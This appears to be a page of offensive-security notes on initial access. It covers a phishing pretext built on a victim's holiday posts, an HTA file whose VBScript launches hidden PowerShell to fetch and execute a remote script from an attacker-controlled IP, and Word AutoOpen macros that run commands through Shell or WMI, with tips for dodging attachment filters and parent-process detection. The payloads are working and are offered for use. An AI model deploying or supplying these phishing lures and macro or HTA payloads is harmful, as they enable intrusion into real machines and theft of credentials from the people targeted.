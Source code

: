 ## Phishing

Phishing is one of the most common forms of initial compromise. Pretexts usually invoke feelings of fear and urgency in the target. A common tactic is to pretext the situation in a way that the victim's brain remains in "alpha" mode. This means they're unaware of a potential suspicious situation and blindly follow what they're reading. 

Consider this: You've recently posted on social media regarding a holiday. You have a lovely time in the Bahamas and have a great tan to show off back home. You've moaned about the plane being slightly delayed online. 3 days after you return, you receive an email from <INSERT AIRLINE> regarding compensation for your delay. You did have a delay, and did just fly recently, so you follow their suggestion and apply for reimbursement. You use the same password you use for your corporate network, maybe adding a symbol. 

Plot twist, that's not from the airline and you aren't getting compensation! 

There's many, many ways to pretext a phishing situation. Always be vigilant.

## HTA Files

HTA files are a common attack vector, though require mshta to be installed to execute (Part of IE). The following payload executes the command shown when run. Note the full path to a 64-bit PowerShell. Mshta runs by default as a 32-bit program and thus looking for `powershell` executes it from the 32-bit location! Either attach an HTA file or provide a download link. The link is more malleable long term and also doesn't get yoinked by defensive filtering on attachments.

```html
<html>
  <head>
    <title>HTA File</title>
  </head>
  <body>
  </body>

  <script language="VBScript">
    Function Cmd()
      Set shell = CreateObject("wscript.Shell")
      shell.run "C:\\Windows\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c ""IEX ((New-Object System.Net.Webclient).downloadstring('http://10.10.10.10/updates.txt'))"""
    End Function

    Cmd
  </script>
</html>
```

## Office Macros

We can obviously use Office Macros, although this is becoming more obsolete with the tighter controls being implemented on it. Nonetheless, here is some code for it.

This will create a child process of msword, which is commonly going to be fingerprinted by defenders 🚩
```vb
Sub AutoOpen()
PowershellTest
End Sub

Sub Wait(n As Long)
Dim t As Date
t = Now
Do
    DoEvents
Loop Until Now >= DateAdd("s", n, t)
End Sub

Sub PowershellTest()

Dim cradle As String

MsgBox ("Bad idea!")
cradle = "cmd.exe /c ping 10.10.10.10"
Shell cradle, vbHide
Wait (5)
Shell downloadedFile, vbHide

End Sub
``` 

You may have more succecss using WMI - Windows Management Instruments - to spawn a process under WmiPrvSE. Adjust command as necessary. Nice to start with a ping on labs to see if it's working at least.
```vb
Sub AutoOpen()
wmiTest
End Sub

Sub Wait(n As Long)
Dim t As Date
t = Now
Do
    DoEvents
Loop Until Now >= DateAdd("s", n, t)
End Sub

Sub wmiTest()

Dim wmi As Object 

Set cmd = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")  
cmd.Create "cmd.exe /c ping 10.10.10.10"

End Sub
``` 